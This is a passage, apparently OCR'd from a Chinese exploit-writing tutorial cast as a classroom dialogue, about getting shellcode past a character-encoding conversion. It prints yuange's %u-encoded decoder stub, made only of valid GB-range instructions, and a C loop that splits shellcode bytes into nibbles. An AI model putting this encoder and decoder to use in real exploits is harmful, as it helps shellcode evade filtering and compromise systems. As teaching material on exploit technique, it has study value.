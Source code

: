 “所以问题就在于转换。小于 0x80 的会符合要求；但大于 0x80、不符合编码范围的就会被替换掉！转换完毕后，当然就不是我们想要的字符串啦！”

“哇！这样啊！”

“这就是该漏洞的第三个奇妙之处。大家想想怎么办？”老师又开始让同学们开动脑筋了。

“如果不符合编码范围，会被改变；那我们把 JMP 04，JMP EBX 的地址和 Shellcode 都使用符合编码范围的字符吧！”宇强思考后说。

“嗯！很好！思路就是这样，我们使用符合编码范围的字符。这样，‘\xXX’在转换成宽字节后，就变为‘\xXX\x00’了；再被转换回来，就又成了‘\xXX’，不会被改变。”

“但大家想想，JMP 04，JMP EBX 的地址符合规范比较容易，Shellcode 也可用前面的方法（比如替换法）进行编码，但要 decode 全部都符合编码要求实在是太困难了。”

“难啊！难于上青天啊！”大家感叹道，“那怎么办啊？”

“这里，我给大家再介绍一位前辈级的人物——yuange！他提出的解决办法如下：”

1.把 real shellcode 编码成小于 0x80 的字符。这样，在经过转换后就成为‘\xXX\x00’了，字符不会被改变。

2.再精心编写一段符合编码范围的代码，用这些代码来解码上述经过编码的 real shellcode！

“哦？”

“yange 提出的具体算法就是：编码时把 shellcode 的字符 0xXY 变成 0x0X 和 0x0Y，这样一定可以符合小于 0x80 要求；而在解码中，用 0xa*0x10+0xb=0xab 的算法来恢复。”

“而解码的代码是 yuange 精心打造的，全部符合简体中文编码范围要求的 CPU 指令。大家看看吧！”

```
"%u5390%u665e%u66ad%u993d%u7560%u56f8%u5656%u665f"
　　"%u66ad%u4e3d%u7400%u9023%u612c%u5090%u6659%u90ad"
　　"%u612c%u548d%u7088%u548d%u908a%u548d%u708a%u548d"
　　"%u908a%u5852%u74aa%u75d8%u90d6%u5058%u5050%u90c3"
　　"%u6099"; 
```

“哇！太强了！”大家都面带钦佩之色。

“是啊，yuange 这样的人才算得上真正的黑客啊！技术高超，而且无私共享。”

“嗯！向 yuange 学习！向 yuange 致敬！”大家发出由衷的呐喊。

老师笑道：“下面我们把 Exploit 完成吧！我们先把 ShellCode 用 yuange 的算法进行编码，实现的算法就是：”

```
unsigned char ShellCode[] = 
    "\x81\xF4\xE2";
unsigned char enShellCode[200];
int main()
{
    int i,nLen;
    unsigned char temp;
    nLen = sizeof(ShellCode)-1; //ShellCode 长度
    for(i=0;i<nLen;i++)
    {
        temp=ShellCode[i];
        enShellCode[2*i] = temp/0x10;
        enShellCode[2*i+1] = temp%0x10; //把 0xab 拆分为 0xa、0xb 并保存 
    }
} 
```

